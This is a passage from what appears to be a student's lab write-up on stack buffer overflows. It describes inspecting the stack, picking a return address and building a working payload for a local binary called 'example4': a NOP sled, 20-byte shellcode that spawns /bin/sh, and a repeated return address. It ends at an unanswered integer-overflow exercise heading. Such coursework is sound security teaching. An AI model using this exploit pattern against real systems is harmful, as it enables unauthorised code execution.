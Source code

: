 - Examine `$esp` to verify contents have been copied properly into the buffer 

![stack](../task4/images/stack.PNG)

- Pick any of the starting addresses from the stack `0xffffcefc`(in our case).

- Now use this address to overwrite the instruction pointer `ip` to point to our shellcode.

- Calculate shellcode length(`20 bytes`)
- Fill the buffer with no-ops `\x90` +`20 bytes shellcode` + `return address` which should result to 268 bytes(`offset` + `return address`) and run

![shell_executed](../task4/images/shell_executed.PNG)

payload

```bash
./example4 $(python -c "print('\x90'*208   + '\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\xfc\xce\xff\xff' * 10  )")
```
- payload breakdown
`208 bytes` (no-ops) + `20 bytes` shellcode + `4 bytes` return address * 10 = `268 bytes`.


<br>

### Exercise 7: Integer Overflow

__1. Explain why you are able to crash the program and what type of error you encountered.__
__solution :__
